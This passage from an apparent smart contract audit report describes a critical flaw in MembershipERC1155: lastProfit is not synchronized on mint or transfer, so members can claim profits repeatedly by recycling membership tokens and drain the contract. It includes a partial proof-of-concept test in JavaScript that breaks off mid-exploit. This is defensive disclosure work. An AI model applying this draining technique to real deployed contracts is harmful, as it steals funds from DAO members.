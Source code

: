 **Lead Auditors**

[Immeas](https://twitter.com/0ximmeas)

[Gio](https://twitter.com/giovannidisiena)

**Assisting Auditors**



---

# Findings
## Critical Risk


### `MembershipERC1155` profit tokens can be drained due to missing `lastProfit` synchronization when minting and claiming profit

**Description:** When [`MembershipERC1155:claimProfit`](https://github.com/OneWpOrg/audit-2024-10-oneworld/blob/416630e46ea6f0e9bd9bdd0aea6a48119d0b515a/contracts/dao/tokens/MembershipERC1155.sol#L138-L147) is called by a DAO member, the [`lastProfit`](https://github.com/OneWpOrg/audit-2024-10-oneworld/blob/416630e46ea6f0e9bd9bdd0aea6a48119d0b515a/contracts/dao/tokens/MembershipERC1155.sol#L184) mapping is updated to keep track of their claimed rewards; however, this state is not synchronized when minting/burning membership tokens or when transferring membership tokens to a new account.

Hence, when minting or transferring, a new user will be considered eligible for a share of previous profit from before they were a DAO member. Aside from the obvious case where a new DAO member claims profits at the expense of other existing members, this can be weaponized by recycling the same membership token between fresh accounts and claiming until the profit token balance of the `MembershipERC1155Contract` has been drained.

**Impact:** DAO members can claim profits to which they should not be entitled and malicious users can drain the `MembershipERC1155` contract of all profit tokens (including those from membership fees if paid in the same currency).

**Proof of Concept:** The following tests can be added to `describe("Profit Sharing")` in `MembershipERC1155.test.ts`:
```javascript
it("lets users steal steal account balance by transferring tokens and claiming profit", async function () {
    await membershipERC1155.connect(deployer).mint(user.address, 1, 100);
    await membershipERC1155.connect(deployer).mint(anotherUser.address, 1, 100);
    await testERC20.mint(nonAdmin.address, ethers.utils.parseEther("20"));
    await testERC20.connect(nonAdmin).approve(membershipERC1155.address, ethers.utils.parseEther("20"));
    await membershipERC1155.connect(nonAdmin).sendProfit(testERC20.address, ethers.utils.parseEther("2"));
    const userProfit = await membershipERC1155.profitOf(user.address, testERC20.address);
    expect(userProfit).to.be.equal(ethers.utils.parseEther("1"));

    const beforeBalance = await testERC20.balanceOf(user.address);
    const initialContractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // user claims profit
    await membershipERC1155.connect(user).claimProfit(testERC20.address);

    const afterBalance = await testERC20.balanceOf(user.address);
    const contractBalance = await testERC20.balanceOf(membershipERC1155.address);

    // users balance increased
    expect(afterBalance.sub(beforeBalance)).to.equal(userProfit);
    expect(contractBalance).to.equal(initialContractBalance.sub(userProfit));

    // user creates a second account and transfers their tokens to it
```